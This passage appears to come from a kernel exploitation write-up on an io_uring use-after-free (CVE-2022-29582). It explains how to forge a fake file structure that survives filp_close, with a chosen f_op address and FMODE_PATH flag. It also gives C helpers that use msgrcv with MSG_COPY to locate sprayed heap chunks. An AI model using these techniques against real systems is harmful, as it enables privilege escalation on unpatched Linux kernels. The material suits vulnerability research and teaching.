 See what happens when we do close over the file

```
1278 int filp_close(struct file *filp, fl_owner_t id)
1279 {
1280	int retval = 0;
1281
1282	if (!file_count(filp)) {
1283		printk(KERN_ERR "VFS: Close: file count is 0\n");
1284		return 0;
1285	}
1286
1287	if (filp->f_op->flush)
1288		retval = filp->f_op->flush(filp, id);
1289
1290	if (likely(!(filp->f_mode & FMODE_PATH))) {
1291		dnotify_flush(filp, id);
1292		locks_remove_posix(filp, id);
1293	}
1294	fput(filp);
1295	return retval;
1296 }


```

Only need that f_count > 0, the f_op->flush contains a NULL (flush is at f_op+0x78) and f_mode to be 0x4000.

```
#define FMODE_PATH		((__force fmode_t)0x4000)


```

What address can be f_op? In [the same](https://ruia-ruia.github.io/2022/08/05/CVE-2022-29582-io-uring/) write up, it advices the NULL_MEM 0xfffffe0000002000 address.

Because we don´t want another UAF yet, we will put the f_count = 2, only to locate the chunk and perform another spray afterward. Like so, we will use msgrcv (with the flag MSG_COPY, it will do a copy and the message isn´t deleted) and locate it. If the message is found, it will be deleted, making it available for the next target object in the exploit.

```
int peek_msg(int msqid, void *msgp, size_t msgsz, long msgtyp) {

	if (msgrcv(msqid, msgp, msgsz, msgtyp, MSG_COPY | IPC_NOWAIT | MSG_NOERROR) < 0) {
		perror("[-] msgrcv");
		printf("errno: %d\n", errno);
		exit(0);
	}
	
	return 0;
}

int read_msg(int msqid, void *msgp, size_t msgsz, long msgtyp) {

	if (msgrcv(msqid, msgp, msgsz, msgtyp, IPC_NOWAIT | MSG_NOERROR) < 0) {
		perror("[-] msgrcv");
		exit(0);
	}
	
	return 0;
}


```
